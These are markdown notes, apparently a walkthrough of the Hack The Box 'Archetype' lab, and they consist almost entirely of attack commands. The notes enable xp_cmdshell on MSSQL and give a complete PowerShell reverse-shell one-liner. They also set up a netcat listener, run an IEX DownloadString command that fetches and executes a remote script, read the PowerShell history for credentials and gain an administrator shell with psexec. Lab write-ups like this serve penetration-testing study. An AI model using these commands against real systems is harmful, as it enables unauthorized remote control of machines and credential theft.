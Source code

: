 # Connect to SQL

## Command

```bash
https://github.com/SecureAuthCorp/impacket
msqlclient.py ARCHETYPE/sql_svc@<IP_ADDR> -windows-auth
```

### Verify if sysadmin

```SQL
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"
```

## Enumerate the system

```powershell
 $client = New-Object System.Net.Sockets.TCPClient("<IP_ADDR>",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## Start mini-webserver

```bash
python -m http.server 80
```

## Start netcat allow ufw callbacks

```bash
nc -lvnp 443
ufw allow from 10.10.10.27 proto tcp to any port 80,443
```

## Execute reverse shell

```powershell
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://<IP_ADDR/shell.ps1\");"
```

## See frequently used files

```bash
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

## Gain shell

```bash
https://github.com/SecureAuthCorp/impacket
psexec.py administrator@<IP_ADDR>
```
